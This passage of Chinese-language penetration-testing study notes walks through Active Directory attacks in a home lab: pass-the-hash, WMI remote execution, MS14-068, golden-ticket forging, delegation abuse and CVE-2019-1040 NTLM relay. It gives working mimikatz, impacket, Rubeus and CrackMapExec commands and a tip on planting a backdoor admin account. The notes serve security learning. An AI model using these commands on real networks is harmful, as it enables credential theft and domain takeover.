    3. 尽管 PsExec 在退出后会删除 psexesvc 服务，但是创建和删除服务本身会产生日志，从而有被溯源的风险。
    4. 在域的环境下，非域的用户无法利用内存中的票据，从而无法使用 PsExec，这时只能通过账号密码。
    5. 如果 PsExec 出现类似**“拒绝访问”、“找不到指定文件”**等问题，就用 Python 的 impacket 模块的 PsExec 试试。

#### 4.2.3 使用 MSF 的 Hash 模块

1. 直接上命令
    ```bash
    use exploit/windows/smb/psexec
    set SMBUser Administrator
    set rhosts 192.168.31.2
    set smbpass aad3b435b51404eeaad3b435b51404ee:3820869383098c3e7f59d92b3ae254b5
    ```

2. 注意，这里的 smbpass 是较长的 hash：
    `aad3b435b51404eeaad3b435b51404ee:ntlm hash`
    

#### 4.2.4 CrackMapExec 批量 PTH

1. CrackMapExec 可以针对 C 段主机，批量的进行 PTH，项目地址：

    > https://github.com/byt3bl33d3r/CrackMapExec
    > 可以在 Kali 中 apt-get。

2. 使用命令：
    ```bash
    crackmapexec smb 192.168.31.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:3820869383098c3e7f59d92b3ae254b5
    ```

    

3. 知道哪些机器可以 PTH 后，就用其他的工具获取 Shell。

#### 4.2.5 WMI - Windows Management Instrumentation

1. WMI 即 Windows 管理工具，Win98 后的操作系统都支持 WMI。
    由于 Windows 默认不会将 WMI 的操作记录在日志里，同时随着杀软将 PsExec 加入黑名单，因此 WMI 比 PsExec 要更好一点。

2. 使用 WMIC 连接远程主机，需要目标主机**开放 135 和 445 端口**。其中 135 端口是 WMIC 默认的管理端口，WMIEXEC 使用 445 端口传回显。

3. 使用命令：
    ```cmd
    # WMI 连接远程主机，并使用目标系统的 cmd 来执行命令，将执行的结果保存在目标主机的某个位置。
    wmic /node:192.168.31.2 /user:administrator /password:CJYcjy320723 process call create "cmd.exe /c ipconfig > C:/ip.txt"
    # 建立 IPC，使用 type 命令读取执行结果
    net use \\192.168.31.2\ipc$ "password" /user:"username"
    type \\192.168.31.2\C$\ip.txt
    ```

4. 同样的，Python 的 Impacket 工具包依旧有 WMIEXEC.py 脚本：
    ```bash
    # 后面不加命令就是直接返回 Shell
    python3 wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:3820869383098c3e7f59d92b3ae254b5 administrator@192.168.31.2 "ipconfig"
    # 当然有明文也可以使用
    python3 wmiexec.py administrator:CJycjy320723@192.168.31.2
    ```

    
    
5. 其他命令：开启 RDP（明文）
    ```powershell
    # 适用于 Windows、xp、server 2003
    wmic /node:192.168.31.2 /user:administrator /password:CJYcjy320723 PATH win32_terminalservicessetting WHERE (__Class!="") CALL SetAllowTSConnections 1
    
    # 适用于 Windows 7、8、10, server 2008、2012、2016，注意 ServerName 需要改为目标的 Hostname
    wmic /node:192.168.31.2 /user:administrator /password:CJYcjy320723 RDTOGGLE WHERE ServerName='计算机名' call SetAllowTSConnections 1
    # 或者
    wmic /node:192.168.31.2 /user:administrator /password:CJYcjy320723 process call create 'cmd.exe /c REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f'
    # 调用其他命令就是：
    wmic /node:192.168.31.2 /user:administrator /password:CJYcjy320723 process call create '其他命令'
    ```

    

#### 4.2.6 WMIEXEC.vbs 脚本 - 明文

1. 该脚本通过 vbs 调用 WMI 来模拟 PsExec 的功能，地址：

    > https://github.com/k8gege/K8tools/blob/master/wmiexec.vbs

2. 明文命令：
    ```cmd
    # 获取 Shell
    cscript //nologo wmiexec.vbs /shell 192.168.31.2 administrator CJYcjy320723
    # 执行命令
    cscript /cmd wmiexec.vbs 192.168.31.2 administrator CJYcjy320723 "ipconfig"
    ```

    

#### 4.2.7 Invoke-WMICommand - 明文

1. Invoke-WmiCommand.ps1 是 PowerSploit 工具包里的一部分。该脚本**利用 Powershell 调用** WMI 来远程执行命令。PowerSploit 项目地址：

    > https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-WmiCommand.ps1
    > 可惜项目已经停了。

2. 运行以下命令来执行：
    ```powershell
    # 导入 Invoke-WmiCommand.ps1 脚本
    Import-Module .\Invoke-WmiCommand.ps1
    # 指定目标系统用户名
    $User = "administrator"
    # 指定目标系统的密码
    $Password = ConvertTo-SecureString "CJYcjy320723" -AsPlainText -Force
    # 整合账号密码，以便导入 Credential
    $Cred = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $User, $Password
    # 指定要执行的命令和目标 IP
    $Remote = Invoke-WmiCommand -Payload {ipconfig} -Credential $Cred -ComputerName 192.168.31.2
    # 回显结果
    $Remote.PayloadOutput
    ```

    

#### 4.2.8 Invoke-WMIMethod - 明文

1. Invoke-WMIMethod 是 Powershell 自带的一个模块，可以用于连接远程计算机和执行命令。

2. 执行命令：
    ```powershell
    $User = "administrator"
    $Password = ConvertTo-SecureString "CJYcjy320723" -AsPlainText -Force
    $Cred = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $User, $Password
    # 执行命令，但是没有回显
    Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "calc.exe" -ComputerName "192.168.31.2" -Credential $Cred
    ```

    

### 4.3 PTT（Pass The Ticket）票据传递攻击

#### 4.3.1 银票传递

1. 只需要特定目标成员的 NTLM Hash 就行。

2. 具体内容详见：[2.2.10 白银票据](#2.2.10 白银票据)

3. 一般来说**伪造 CIFS 服务**，然后构造银票时，SID 也尽量不要带上 Object Relative ID。

4. 除了 mimikatz 工具，还有 kekeo 工具可以使用：

    > 项目地址：https://github.com/gentilkiwi/kekeo

5. 想着 kekeo 和 mimikatz 的区别，然后网上冲浪发现一些东西：
    
    

    > https://www.codercto.com/a/90852.html

6. kekeo 制作票据命令：
    ```bash
    # 不用指定具体服务
    tgt::ask /user:用户名 /domain:域名 /ntlm:NTLM Hash
    ```

    制作过后再用 mimikatz 导入即可（感觉也挺麻烦）。

#### 4.3.2 域提权 - MS14-068

1. 金票传递之前需要有域管理的权限，可以用 MS14-068 来提权。下载地址：

    > https://github.com/abatchy17/WindowsExploits/blob/master/MS14-068/MS14-068.exe

2. 补丁查看：
    ```cmd
    systeminfo | find "3011780"
    ```

    返回为空表示没打补丁。

3. PS：提权是有时效性的，而且需要 MS14-068 后生成的凭证才有用。
    需要工具 mimikatz 和 MS14-068 工具：

    ```cmd
    # 先查看用户的 SID
    whoami /user
    whoami /all
    # 使用 MS14-068 伪造票据，会在当前目录下生成凭证
    ms14-068.exe -u member@endlessshw.com -p cjy320723 -s S-1-5-21-512852378-3429876688-390954321-1000 -d Winserver08.endlessshw.com
    # 使用 mimikatz 清空之前缓存的凭证，导入伪造的凭证（的位置）
    mimikatz # Kerberos::purge
    mimikatz # kerberos::ptc C:\Users\Winserver08\Desktop\TGT_member@endlessshw.com.ccache
    # 使用域管理权限访问磁盘
    dir \\Winserver08.endlessshw.com\c$
    ```

    
    域用户 Member 成功访问域控电脑的内容。

4. 使用 PsExec 就可以获取 Shell 了：
    ```cmd
    PsExec64.exe -accepteula -s \\Winserver08.endlessshw.com cmd.exe
    ```

    

#### 4.3.3 金票传递

1. 伪造金票需要的四个东西：

    1. 域名称
    2. 域的 SID 值
    3. **域的 krbtgt 账号的 Hash**
    4. 伪造任意用户名

2. 先要有域管的权限，然后使用命令导出用户 krbtgt 的 hash：
    ```bash
    # 往域控电脑上传 mimikatz，在域控电脑上执行
    mimikatz # lsadump::dcsync /domain:endlessshw.com /all /csv
    # 如果上面的命令不行，就用这个，还更好
    mimikatz # lsadump::dcsync /domain:endlessshw.com /user:krbtgt
    # mimikatz 中复制粘贴有时会导致 shell 崩掉，所以可以将结果导出来
    mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:endlessshw.com /user:krbtgt" "exit" > krbtgt.txt
    ```

    

3. 构造并传递金票，然后导入，获得域控权限：
    ```bash
    # 拿到必要信息后，在域普通用户机器上传递金票
    # 参数说明：
    # /admin 伪造的用户名
    # /ticket 生成的票据名
    # /sid 不带 Object Relative ID 的 Object Security ID
    mimikatz "kerberos::golden /admin:system /domain:endlessshw.com /sid:S-1-5-21-512852378-3429876688-390954321 /krbtgt:fe3d6a0ad6daed6a621c04d24c2a2904 /ticket:golden_ticket"
    # 然后将金票导入即可
    mimikatz # Kerberos::purge
    mimikatz # kerberos::ptt 金票位置
    ```
    

4. 有金票后一般会借此机会再创建一个后门用户，将其放入管理组以便权限维持。

## 5. 委派攻击

1. 域的委派指的是域内用户的权限委派给**服务账号**，使得服务账号能**以用户的权限**在域内展开活动。
    举例：当用户 A 访问服务 B 时，服务 B 拿着 A 的用户凭证去访问服务 C，这个过程称为委派。
2. 委派攻击分为三种手段
    1. 非约束委派攻击
    2. 约束委派攻击
    3. 资源委派攻击

### 5.1 非约束委派攻击

1. 在域内只有主机账号和服务账号才有委派属性。

    1. **主机**账号：AD 中的 **Computer 组**内的计算机，也被称作机器账号。

    2. **服务**账号：域内用户的一种类型，是**服务器运行服务时所用的账号**，将服务运行起来加入域内，例如常见的 SQLServer、MySQL 等都有服务账号；域用户通过注册 SPN 也能成为服务账号。注意一般这类账号都不能登录，自己额外注册的另说。

        > SPN（ServicePrincipal Names，服务主体名称）是服务实例的**唯一标识符**，当域内存在大量的服务器，管理员为了方便管理会对服务器进行**标识**，那么管理员标识所使用的方法就是 SPN。

2. 大致流程：
    如果是非约束委派攻击，那么 KDC 会将发给用户的 Ticket 中塞入 TGT，这样服务器收到用户的 Ticket 中就含有了用户的 TGT，并把 **TGT 存放在自己的 lsass.exe 中以备下次重用**。这时服务器就可以用该 TGT，模拟用户的身份去访问其他服务。（感觉像是代理）
    从攻击的角度来讲：如果攻击者**拿到了一台配置了非约束委派的机器或者用户权限**，此时**诱导管理员来访问该机器或用户所在的机器**，这样这台机器就能拿到管理员的 TGT，从而攻击者能够模拟管理员来访问任意服务，相当于拿下整个域。

#### 5.1.1 搭建环境

1. 先给特定用户一个服务：
    ```cmd
    # -A 添加任意的 SPN。
    # 为用户 Member 注册 SPN "cifs/winserver12.endlessshw.com"
    setspn -A cifs/winserver12.endlessshw.com Member
    # 或
    setspn -A https/web Member
    ```
    
2. 然后该用户就可以设置其委派属性了：
    

3. 主机账号可以直接在 Computers 组中可以为特定主机设置委派权限：
    

#### 5.1.2 非约束委派的权限配置查询

1. 在 GUI 中，可以查看用户的属性编辑器，其 `userAccountControl` 属性会包含
     `TRUSTED_FOR_DELEGATION` 值。

2. 但是没有 GUI 时，就要通过命令查询。

3. 一方面，在域用户上可以通过 PowerShell 的 `PowerView.ps1` 脚本。
    下载地址：

    > https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1

    ```powershell
    # 导入模块 PowerView.ps1
    Import-Module ./PowerView.ps1
    # 查询域内非约束主机，其中有一项为 userAccountControl，如果有 TRUSTED_FOR_DELEGATION 说明该主机有非约束权限
    Get-NetComputer -Unconstrained -Domain endlessshw.com
    # 查询非约束用户
    Get-NetUser -Domain endlessshw.com | select name, useraccountcontrol
    ```

    
    

4. 还可以使用 `adfind.exe` 来查询。
    下载地址：

    > https://www.joeware.net/freetools/tools/adfind/

    ```cmd
    # 查询非约束委派的主机，samAccountType=805306369 (0x30000001) 表示主机
    AdFind.exe -b "DC=endlessshw,DC=com" -f "(&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288))" cn distinguishedName
    # 查询非约束委派的用户，samAccountType=805306368 (0x30000000) 表示用户
    AdFind.exe -b "DC=endlessshw,DC=com" -f "(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=524288))" cn distinguishedName
    ```

    

5. 此外还有通过 msf 中自带的 ldapsearch，详见：

    > https://xz.aliyun.com/t/7217?time__1311=n4%2BxnD0Dy7G%3DdD5eGN3rrDgDIxhn%3DDcGDYuehD#toc-3

#### 5.1.3 经典案例

1. 域管理在 PowerShell 中使用 winrm 服务器远程连接域内主机
    ```powershell
    # 注意填写的是主机名
    Enter-PSSession -ComputerName Winserver12
    # 或者直接访问
    dir \\Winserver12\c$
    ```

    

2. 此时域管理的凭证已经缓存于目标主机中，用目标主机的本地管理，将凭证导出。
    ```cmd
    mimikatz # privilege::debug
    mimikatz # sekurlsa::tickets /export
    ```

3. 出现含有 Administrator 和 krbtgt 的凭证即算成功
    

4. 将其导入即可：
    ```bash
    mimikatz # kerberos::ptt 凭证位置
    # 当前使用 mimikatz 导入凭证的 shell 才有权限
    mimikatz # exit
    ```

    

5. 一些注意点：

    1. 更改委派权限后需要一段时间才能生效，复现的时候可以考虑域控注销后再登录，比重启快。
    
    2. 自己做复现的时候，服务账号使用委派权限后并没有得到 krbtgt 的凭证。似乎其他师傅也有这种情况：
    
        > https://www.cnblogs.com/zpchcbd/p/12939246.html
    
    3. 本机管理员密码和域控管理员密码可能要不一致，否则本机管理员可能可以能直接访问到域控的电脑。
    
    4. 个人复现的时候，是导入了凭证的 shell 才有权限，其他的 shell 没有。

#### 5.1.4 非约束委派 + Printer Spooler

1. 参考网站：

    > https://adsecurity.org/?p=4056

2. 基本原理就是：
    首先 Windows Print System Remote Protocol 是 MS-RPRN 中的一个老旧，但是默认的协议。
    通过该协议可以让**域用户向域管**发送 MS-RPRN 的 RpcRemoteFindFirstPrinterChangeNotification 请求，**运行 Spooler 服务的**域管通过 Kerberos 返回通讯测试，也正好就达成了“诱导访问”的目的。
    复现中会使用工具：Rubeus，也是一个内网渗透工具。下载地址：

    > https://github.com/GhostPack/Rubeus

3. 先用 Rubeus 开启 TGT 监听：
    ```cmd
    # Rubeus.exe monitor /interval:1 /filteruser:域控$，注意需要高权限才能运行
    runas /profile /user:winserver12\administrator cmd.exe
    Rubeus.exe monitor /interval:1 /filteruser:Winserver08$ > result.txt
    ```

4. 启动 SpoolSample.exe，向域控发起请求：
    ```cmd
    # 麻了，我一运行这个 exe 就崩溃
    SpoolSample.exe Winserver08 Winserver12
    ```

    之后 Rubeus 会显示一大串 Base64。

5. 将那一大串字符进行内容转换，就可以了，这里用的是 PowerShell：
    ```powershell
    [IO.File]::WriteAllBytes("文件名", [Convert]::FromBase64String("得到的 base64"))
    ```

### 5.2 约束委派

1. 由于非约束委派的不安全性，微软在 windows server 2003 中引入了约束委派，对Kerberos 协议进行了拓展，引入了 S4U（Service for User），其中 S4U 支持两个子协议：Service for User to Self (S4U2Self) 和 Service for User
    to Proxy ( S4U2Proxy )，这两个扩展都允许服务代表用户从 KDC 请求票证。
2. 前置条件：服务 A 通过正常的 Kerberos 验证获得了用户的 TGT。
    S4U2Self 可以让服务 A 代表（模拟）特定用户去请求针对其**自身的** Kerberos 服务票据(Server Ticket)，这里 S4U2Self 的作用其实就是**为了解决用户不能以 Kerberos 方式进行验证的一种方法**，因为用户自己**可能不能通过 Kerberos 去获取相关的 ST 票据**，所以可以通过 S4U2Self 的方法，让服务 A 去获取一张 ST 票据，**之后交给客户**来用于之后的 Kerberos 的协议认证。
3. 通过 S4U2Self 获取的服务票据 A 会用于 S4U2Proxy。在 S4U2Proxy 中，把**之前获取的 ST** 再用于请求**其它服务 B 的 ST（注意这个 ST 的请求者依旧是用户而不是身为代理的服务 A）**，**约束委派就是限制了 S4U2Proxy 扩展的范围**。
4. 在约束委派中的 Kerberos 中，用户同样还是会将 TGT 发送给相关受委派的服务，但是由于 S4U2proxy 的影响，对发送给受委派的服务去访问其他服务做了限制，**不允许受委派的服务代表用户使用这个 TGT 去访问任意服务，而是只能访问指定的服务。**
5. 总的来看，之所以约束委派相比非约束委派更安全，个人认为体现在两个方面：
    1. 约束委派服务 A 获得的是用户针对其他具体服务的 ST，而不是非约束委派的 TGT。如果用户是 DC，那么相当于从黄金票据下降到白银票据。
    2. 约束委派就是限制了 S4U2Proxy 扩展的范围，要指定特定的服务。

6. 从攻击的角度来看，攻击者首先需要拿到一台拥有约束委派权限的机子/服务账号 A；这时域控充当另外的一个服务，且如果 A 拥有**委派域控的**特定服务的权限；这时 A 就可以冒充域控的身份，发起针对域控的特定服务的请求以获取对应的 ST。如果特定服务是敏感的（例如常见的**通向域控的 CIFS**），那么就相当于拿到了域控的 ST。总结来讲额外两个条件：
    1. 约束委派权限的机子 A 是委派域控的。
    2. 委派域控的服务要是敏感服务。


#### 5.2.1 环境搭建

1. 还是先用服务账号做委派。前置设置方法见[非约束委派](# 5.1.1 搭建环境)。
2. 然后设置针对域控的 CIFS 委派：
    
3. 和非约束委派类型，拥有约束委派权限的用户/主机的 `userAccountControl` 属性含有值：`TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION`。
4. 主机的委派权限同理。

#### 5.2.2 约束委派的查询

1. 使用 adFind.exe 查询：
    ```cmd
    # 查询主机
    AdFind.exe -b "DC=endlessshw,DC=com" -f "(&(samAccountType=805306369)(msds-allowedtodelegateto=*))" cn distinguishedName msds-allowedtodelegateto
    # 查询服务用户
    AdFind.exe -b "DC=endlessshw,DC=com" -f "(&(samAccountType=805306368)(msds-allowedtodelegateto=*))" cn distinguishedName msds-allowedtodelegateto
    ```

    

2. 也可以使用 PowerShell + 脚本
    ```powershell
    Import-Module ./PowerView.ps1
    # 查主机
    Get-DomainComputer -TrustedToAuth -Domain endlesssshw.com
    # 查用户
    Get-DomainUser -TrustedToAuth -Domain endlesssshw.com
    ```

    

#### 5.2.3 复现过程 - 服务账号（其实机器同理）

1. 首先要伪造针对服务账号的 TGT，为下一步的使用做铺垫：
    ```cmd
    # 使用 kekeo
    tgt::ask /user:member /domain:endlessshw.com /password:cjy320723 /ticket:member.kirbi
    # 同理此处利用 ntlm hash也是可以进行请求的，机器同理，用户名就是主机名罢了
    tgt::ask /user:member /domain:endlessshw.com /NTLM:XXXXX
    ```

2. 然后伪造域控的身份，对服务账号发起请求以触发 S4U2Self 和 S4U2Proxy。
    ```cmd
    # 还是在 kekeo，这里就需要用上面的 TGT 来帮助“域控”通过 Kerberos 验证
    tgs::s4u /tgt:TGT_member@ENDLESSSHW.COM_krbtgt~endlessshw.com@ENDLESSSHW.COM.kirbi /user:Administrator@endlessshw.com /service:cifs/winserver08.endlessshw.com
    ```

    

3. 票据导入后利用：
    ```cmd
    # 还是在 kekeo
    kerberos::ptt TGS_Administrator@endlessshw.com@ENDLESSSHW.COM_cifs~winserver08.endlessshw.com@ENDLESSSHW.COM.kirbi
    ```

    

### 5.3 基于资源的约束委派

1. Winserver12 后引入了基于资源的约束委派。
2. 传统的委派是域控**指定委派者**，委派者的属性指定被委派对象的服务。
3. 与传统的约束委派相比，**服务资源**不再需要域控权限去设置相关属性，其**自身拥有设置委派的权限**。即资源本身可以决定谁可以被委派来控制我，**由资源方指定委派者**，因此称之为基于资源的约束委派。
4. 传统的约束委派 S4U2Self 返回的票据一定是可转发的（其含有 Forwardable 标记），因为 S4U2Proxy 需要转发该票据，如果不可转发，那么约束委派将失效。但是基于资源的约束委派不同，即使 S4U2Self 返回的票据不可转发（可不可以转发最终取决于属性 `TrustedToAuthenticationForDelegation`），S4U2Proxy 也是可以成功，并且 S4U2Proxy 返回的票据总是可转发的。

#### 5.3.1 三个重要的域属性

1. `mS-DS-Creator-SID` 属性，官方的说明：

    > The security ID of the creator of the object that contains this attribute.
    > https://learn.microsoft.com/en-us/windows/win32/adschema/a-ms-ds-creatorsid

    这个属性在计算机上指的是该计算机加入域时所登录的域账号。例如用用户名 Member 登录 Winserver12，那么 Winserver12 上这一项的值就是 Member 的 SID。
    
    如果没有“属性编辑器”，那就在“查看”中勾选高级功能：
    

2. `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性，官方说明：

    > This attribute is used for access checks to determine if a requestor has permission to act on the behalf of other identities to services running as this account.
    > https://learn.microsoft.com/en-us/windows/win32/adschema/a-msds-allowedtoactonbehalfofotheridentity

    简单来讲，该属性指向委派账户，以决定谁来委派“我”。

3. `ms-DS-MachineAccountQuota` 属性，官方说明：

    > The number of computer accounts that a user is allowed to create in a domain.
    > https://learn.microsoft.com/en-us/windows/win32/adschema/a-ms-ds-machineaccountquota

    该属性表明一个账户在域内所允许创建的**计算机账户**数，默认为 10，即一个普通的域用户可以创建十个新的计算机帐户。
    因为基于资源的约束委派中需要用到 S4U2Self 和 S4U2Proxy，又因为 S4U2Self只适用于具有 SPN 的账户，恰好的是在域中有一个属性 `MachineAccountQuota`，所以就需要通过 `MachineAccountQuota` 来创建一个 SPN 的账户来进行委派配合，而计算机账户默认是注册 `RestrictedKrbHost/domain` 和 `HOST/domain` 这两个SPN的。

#### 5.3.2 攻击条件

1. 具有对主机修改 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性的权限。具有这种权限的情况，具体来讲就是：
    1. `mS-DS-Creator-SID` 所指用户，即将该主机加入域的域用户。
    2. Account Operator 组的成员。
    3. 该主机的机器账户。
2. 可以创建机器账户（或已知机器账户）。一般的域成员都可以创建 `ms-DS-MachineAccountQuota` 属性所指定数量的机器账户。

#### 5.3.3 案例 - 本地主机提权

1. 首先根据攻击条件，先要有修改 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性的权限。这里先从 `mS-DS-Creator-SID` 入手，查询域内每台主机的 `mS-DS-Creator-SID`。可以使用脚本（记得修改其中的域名）：
    ```c#
    using System;
    using System.Security.Principal;
    using System.DirectoryServices;
    namespace ConsoleApp9
    {
        class Program
        {
            static void Main(string[] args)
            {
                DirectoryEntry ldap_conn = new DirectoryEntry("LDAP://dc=endlessshw2,dc=com");
                DirectorySearcher search = new DirectorySearcher(ldap_conn);
                String query = "(&(objectClass=computer))"; //查找计算机
                search.Filter = query;
                foreach(SearchResult r in search.FindAll())
                {
                    String mS_DS_CreatorSID = "";
                    String computername = "";
                    try
                    {
                        computername = r.Properties["dNSHostName"][0].ToString();
                        mS_DS_CreatorSID = (new SecurityIdentifier((byte[]) r.Properties["mS-DS-CreatorSID"][0], 0)).ToString();
                        //Console.WriteLine("{0} {1}\n", computername, mS_DS_CreatorSID);
                    }
                    catch
                    {;
                    }
                    //再通过sid找用户名
                    String UserQuery = "(&(objectClass=user))";
                    DirectorySearcher search2 = new DirectorySearcher(ldap_conn);
                    search2.Filter = UserQuery;
                    foreach(SearchResult u in search2.FindAll())
                    {
                        String user_sid = (new SecurityIdentifier((byte[]) u.Properties["objectSid"][0], 0)).ToString();
                        if(user_sid == mS_DS_CreatorSID)
                        {
                            //Console.WriteLine("debug");
                            String username = u.Properties["name"][0].ToString();
                            Console.WriteLine("[*] [{0}] -> creator [{1}]", computername, username);
                        }
                    }
                }
            }
        }
    }
    ```
    使用 CSC 编译成 exe，域用户直接执行：
    ```bash
    # 脚本保存的后缀是 cs
    C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc /out:ScanCreaterID.exe ScanCreaterID.cs
    ```
    
    或者使用 Adfind.exe 来查询：
    
    ```cmd
    # 先查域内主机的 SID
    AdFind.exe -b "DC=endlessshw2,DC=com" -f "samAccountType=805306369" mS-DS-CreatorSID
    # 根据 SID 反查用户名
    AdFind.exe -b "DC=endlessshw2,DC=com" -f "ObjectSid=S-1-5-21-1374896991-3346529381-10343655-1109" displayName
    ```
    
    
    
    
2. 或者思路反过来，从已经拥有的域用户入手，查询其可以修改属性 `msDS-AllowedToActOnBehalfOfOtherIdentity` 的主机：
    ```cmd
    # 查询当前域用户的 SID
    whoami /all
    # 根据 SID 查主机
    AdFind.exe -b "DC=endlessshw2,DC=com" -f "(&(samAccountType=805306369)(mS-DS-CreatorSID=S-1-5-21-1374896991-3346529381-10343655-1109))" cn
    # 还有使用 powershell 脚本的，暂时没有验证
    powershell-import PowerView.ps1
    powerpick Get-DomainObjectAcl | ?{$_.SecurityIdentifier -match "这里填 SID"} | select objectdn,activedirectoryrights
    ```

    

3. 使用 SharpAllowedToAct 工具创建机器账户并修改委派，工具地址：

    > https://github.com/HPVCA/SharpAllowedToAct
    > C# 需要自己编译

    ```cmd
    # 不输入参数可以直接查看提示
    SharpAllowedToAct.exe -m hacker -p hacker -t Winserver12 -d endlessshw2.com
    ```

    
    其他博客通过 impacket 中的 addcomputer.py 或 PowerShell 脚本来创建机器账户，通过 impacket 中的 rbcd 来指定委派。详见：

    > https://www.cnblogs.com/seizer/p/18003119#%E5%88%9B%E5%BB%BA%E6%9C%BA%E5%99%A8%E8%B4%A6%E6%88%B7
    > https://exp10it.io/2023/08/%E5%9F%BA%E4%BA%8E%E8%B5%84%E6%BA%90%E7%9A%84%E7%BA%A6%E6%9D%9F%E5%A7%94%E6%B4%BE-rbcd-%E5%88%A9%E7%94%A8%E6%80%BB%E7%BB%93/#%E5%B8%B8%E8%A7%84%E5%88%A9%E7%94%A8
    > 注意一下 rbcd 中的 -delegate-to 和 -delegate-from。to 代表具有修改委派权限的主机/想要横向的主机，from 指的是机器账号。

4. 使用 impacket 包，获取服务票据（**注意使用 impacket 工具的主机/kali 需要修改 DNS 服务器**）
    ```bash
    # 先记得修改 DNS 服务器，添加 NameServer ip
    sudo vim /etc/resolv.conf
    # python3 ./getST.py -dc-ip 域控的-ip endlessshw2/主机账号\$:密码 -spn cifs/主机名.endlessshw2.com -impersonate administrator
    python3 ./getST.py -dc-ip 192.168.31.4 endlessshw2/hacker\$:hacker -spn cifs/Winserver12.endlessshw2.com -impersonate administrator
    ```

    

5. 设置环境变量并导入：
    ```bash
    export KRB5CCNAME=administrator@cifs_Winserver12.endlessshw2.com@ENDLESSSHW2.COM.ccache
    python3 smbexec.py -no-pass -k Winserver12.endlessshw2.com
    ```

    

#### 5.3.4 案例 - 横向其他主机 TODO

1. 电脑配置不行，没法同时开 4 台主机（一台域控、两台服务器（CreatorID 都是同一个域用户）、一台 kali）。
2. 以上一个案例为基础，第 3 步的 SharpAllowedToAct 以及第 4 步生成票据的时候，需要将主机名改成被横向的主机。
3. 总结一下过程：
    前提：攻击者拥有 Server1 的控制权，同时假设攻击者拥有一个域用户，该域用户同时为 Server1 和 Server2 的 `mS-DS-Creator-SID`。
    这时攻击者在 Server1 上创建 Server2 的机器账户 hacker，该 Server2 原先机器账号的 `msDS-AllowedToActOnBehalfOfOtherIdentity` 为 hacker 的 SID。然后 hacker 向域控发起请求，根据资源委派原理，获取到 Server2 的 ST，从而获取到 Server2 的主机权限。
    其实不能理解的是，为什么要额外的创建机器账号，Server2 如果直接指向域用户不就行了吗？大部分博客都是新建一个机器账户，那么个人猜测 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性可能只能指向机器账户。如果这样，那么为什么不能直接将其设置为 Server1 的机器账户？因为加入域时默认的机器账户没法用于登录机器。因此上述两点表明需要额外创建一个机器账户。

#### 5.3.5 CVE-2019-1040 横向其他主机的本地管理员

1. > https://cloud.tencent.com/developer/article/1822665
    > Preempt 的研究人员发现了如何在 NTLM 身份验证上绕过 MIC(Message Integrity Code)保护措施并修改 NTLM 消息流中的任何字段（包括签名）。该种绕过方式允许攻击者将**已经协商签名**的身份验证**尝试中继**到另外一台服务器，**同时完全删除签名要求**。所有不执行签名的服务器都容易受到攻击。 **这个漏洞其实就是可以绕过 NTLM MIC 的防护，也是 NTLM_RELAY 漏洞。**攻击者利用该漏洞可以绕过 NTLM 中的 MIC（Message Integrity Code）。攻击者可以修改已经协商签名的身份验证流量，然后中继到另外一台服务器，同时完全删除签名要求。通过该攻击方式可使攻击者在仅有一个普通域账号的情况下，运程控制域中任意机器（包括域控服务器）。

2. 首先就是 NTLM Relay 攻击，其实就是 NTLM 中继攻击（中间人攻击）。回顾 [NTLM 认证（挑战/质询）](# 2.2.3 Challenge/Response 挑战/响应机制)的过程，可以看出其本身没有保证完整性，从而会导致中间人可以假冒身份并篡改数据。针对这一问题，引入了数字签名以确保数据不会被篡改。

3. 参考：

    > https://developer.aliyun.com/article/675647
    > https://www.freebuf.com/articles/network/383408.html
    > https://www.redhat.com/zh/topics/security/what-is-ldap-authentication#ldap-%E4%B8%8Eactive-directory
    > https://cloud.tencent.com/developer/article/2309741
    > https://daiker.gitbook.io/windows-protocol/ntlm-pian/7#id-5.-cve-2019-1040

4. 目前个人理解（TODO：理清域内各个协议的关系）：由于通过 Print Spooler 漏洞和 PetitPotam 漏洞触发的 NTLM 认证**都是基于 SMB 协议**的，而 SMBv2 默认引入数字签名。但是 LDAP 协议不是硬要求数字签名（LDAP 签名要求级别分为 0、1、2，默认为 1，其中 2 表示强制要求，1 表示服务端尊重客户端选择）。因此需要将 SMB 转为 LDAP。但 NTLM 认证中属性 `Negotiate Sign` 设置为 1，这使得 LDAPS 服务端会直接终止会话（因为 LDAPS 走 SSL），而 LDAP 也会因为其他的两个字段 `Negotiate Key Exchange` 和 `Negotiate Always Sign` 而要求签名。

5. 想要取消签名的话，中间人就要考虑修改 `Negotiate Sign`、`Negotiate Key Exchange` 和 `Negotiate Always Sign`，但是 NTLM 设置了 MIC 签名来保证字段不被修改，因此需要移除掉 MIC 的标记（即修改 `msAvFlags` 的值）。

6. 首先还是需要创建一个机器账号：
    ```bash
    # kali 上执行
    python3 addcomputer.py -method SAMR -dc-ip 192.168.31.4 -computer-name hacker -computer-pass cjy320723 "endlessshw2.com/Member2:CJYcjy320723"
    ```

    

7. 使用 ntlmrelayx.py 设置委派和中继的目标，然后使用 Print Spooler 漏洞
    ```bash
    # -t 指定中继过去的目标，一般为域控
    # --delegate-access 表示设置委派账号
    # --escalate-user 指定要提权的账号
    # -smb2support 开启 SMB2 服务，为 Print Spooler 漏洞创造条件
    python3 ntlmrelayx.py -t ldap://192.168.31.4 -smb2support --remove-mic --delegate-access --escalate-user hacker\$ -debug
    # 使用域用户对 kali 进行认证，高版本好像 printerbug.py 被删除了，用 https://github.com/dirkjanm/krbrelayx/tree/master 的脚本进行代替。
    # 第一个参数表示攻击目标，也就是发起 NTLM 请求的目标。
    # 这里 192.168.31.3 是域内的一台主机，也是攻击对象
    python3 printerbug.py endlessshw2.com/Member2:CJYcjy320723@192.168.31.3 192.168.31.121
